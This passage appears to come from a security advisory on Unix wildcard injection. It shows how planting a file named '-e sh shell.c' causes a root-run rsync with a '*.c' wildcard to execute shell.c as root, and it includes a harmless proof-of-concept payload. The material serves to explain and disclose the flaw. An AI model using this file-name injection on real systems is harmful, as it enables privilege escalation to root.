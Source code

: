 There were two files owned by user 'leon', as listed below.

-rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
-rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

After 'rsync' execution, new file shell_output.txt whose owner is root
is created in same directory.

-rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

If we check its content, following data is found.

[root@defensecode public]# cat shell_output.txt
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

Trick is that because of the '*.c' wildcard, 'rsync' got '-e sh shell.c' option
on command line, and shell.c will be executed upon 'rsync' start.
Content of shell.c is presented below.

[root@defensecode public]# cat shell.c
/usr/bin/id > shell_output.txt
